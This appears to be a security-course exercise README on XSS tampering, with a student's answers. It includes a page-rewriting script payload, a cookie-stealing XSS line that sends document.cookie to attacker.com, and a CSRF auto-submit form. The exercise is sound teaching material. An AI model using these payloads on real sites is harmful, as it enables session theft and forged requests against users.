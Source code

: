 # Tampering

This example demonstrates tampering through script injection.

## Steps to reproduce

1. Install all dependencies

    `npm install`

2. Start the **insecure.ts** server

    `npx ts-node insecure.ts`

3. In the browser, type a potentially malicious script in the name field of the form

    ```
        <script> document.body.innerHTML = "<a href='https://google.com'> Gotcha </a>"</script>
    ```

4. Do you see the potentially malicious hyperlink being injected into the form?

## For you to do

Answer the following:

1. Briefly explain the potential vulnerabilities in **insecure.ts**
The potential vulnerabilities are:
(1) XSS vulnerability due to no input sanitization in the name field.
(2) Session cookie is vulnerable since httpOnly is set to false
(3) Hardcoded session secret ("SOMESECRET") instead of using a dynamic secret
2. Briefly explain how a malicious attacker can exploit them.
XSS Attack through name field: const maliciousName = `<script>fetch('https://attacker.com/steal?cookie=' + document.cookie)</script>`;
CSRF Attack from malicious site:
<form id="evil" action="http://victim-site:8000/register" method="POST">
    <input name="name" value="Admin">
</form>
<script>document.getElementById('evil').submit();</script>
3. Briefly explain why **secure.ts** does not have the same vulnerabilties?
it does not have the same vulnerabilities because it implements escapeHTML() function to sanitize user input, httpOnly is set to true, sets sameSite: 'strict', and uses command-line argument for session secret instead of hardcoding it.